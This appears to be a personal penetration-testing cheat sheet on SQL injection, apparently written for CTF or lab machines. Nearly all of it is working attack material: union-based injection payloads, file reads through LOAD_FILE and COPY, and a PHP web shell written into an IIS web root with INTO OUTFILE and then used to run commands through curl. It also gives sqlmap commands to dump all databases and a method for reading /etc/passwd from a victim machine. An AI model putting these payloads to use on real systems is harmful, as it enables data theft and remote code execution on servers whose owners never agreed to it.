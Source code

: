 SQL_related

## Database too big to navigate inside ? Use UI

- dbeaver

---

## Main example

- Try directly in the url, or in the data sent :
- ' 
- ' -- -
- ' order by 1-- -
- increase this until you found the number of field you can control
- 'union select 1,2,... -- -
- Then in the field you can see, inject whatever you want
- Use the payloads from payloadallthethings

### Find information about the database

- type in google information schema \<type_of_db(mysql for example)\>

- Information Gathering for SQLI : https://sqlwiki.netspi.com/attackQueries/informationGathering/#mysql


### Subquerry returns more than 1 row :

- ```select group_concat(<your_query(for example scheme_data>)```

### Want to have a better view 

- add separator to your query : ```SEPARATOR '\n'```

### Load file

*MySQL*
- Windows : ```select concat("\n\n", TO_BASE64(LOAD_FILE("C:\\\\inetpub\\\\wwwroot\\\\admins.php")),"\n\n")```
- Linux : `SELECT LOAD_FILE('<file>') AS Result;`
*Postgres*
- ```
CREATE TABLE <table>(<field> text);
COPY <table> from '<filename>';
SELECT * from <table>;


### Reverse shell

- ```union select "test",2,3 INTO OUTFILE "C:\\\\inetpub\\\\wwwroot\\\\test.txt"```

- Hit this two times
- If it works :
- ```"<pre><?php system($_GET['cmd']); ?></pre>" INTO OUTFILE 'c:/inetpub/wwwroot/7868768678.php'```
- ```curl ...?cmd=whoami```
- you can replace by ```INTO DUMPFILE```

---

## SQLMAP

### Use injection found before with burpsuite

- Note that it is not working well with the sqlmap download from source on arch linux. If so, download from git directly the binary.

- right click, copy to a file (from intruder window)

- delete the part you inject (the ' too)

- ```sqlmap -r \<file\> --technique=U --batch --dump-all```

- Here the technique used is Union because we found it before, but there are others available (BEUST)

- If you don't know the type of injection : ```sqlmap -r <file> -p productName --dbs```
- or ```sqlmap -r <file> --threads=10 --dbs```

- add ```--batch``` to skip all the questions

- Then, you have the databases, go and see what tables are inside : ```sqlmap -r <file> -D <database> --tables```
- Then dump the needed table : ```sqlmap -r <file> -D <database> -T <table> --dump

### Reverse shell with sqlmap

- On mysql we can check if we have the permission to write on disk with following commands

	
- ```sql-shell> select @@secure_file_priv;```
	
- ```sql-shell> select @@global.secure_file_priv;```


- If their content is empty it’s mean we can !

- Usually the root of the IIS application is at c:/inetpub/wwwroot/ so I tried

	
- ```sql-shell> SELECT "<pre><?php system($_GET['cmd']); ?></pre>" INTO OUTFILE 'c:/inetpub/wwwroot/7868768678.php'```

- and now testing if it was successfully written

	
- ```curl "http://10.10.10.167/7868768678.php?cmd=whoami"```

---

## Remote access to an sql database

https://www.linode.com/docs/databases/mariadb/mariadb-setup-debian/

- edit my.cnf.d/server.cnf with the bind address

- create a database and a table :

```
create database exploit;
use exploit;
create table dmp(content varchar(5000));
```


- Then see if you can load file from victim machine :

```
LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE test.test
FIELDS TERMINATED BY "\n"
```

---

## Lot of stuff

https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html

---

## Login and password of mysql database and connected on the machine ?

- ```mysqldump --databases <database> -u<user> -p<password>```

## Look into juicy files in mysql

`/var/lib/mysql/mysql/*` , `/var/lib/mysql-files/*`
	
## Postgres

- Access to the console : `psql`

- List the databases : `\list`

- Select the database `\c <database>`

- List the tables : `\d`

- Then `SELECT ...`

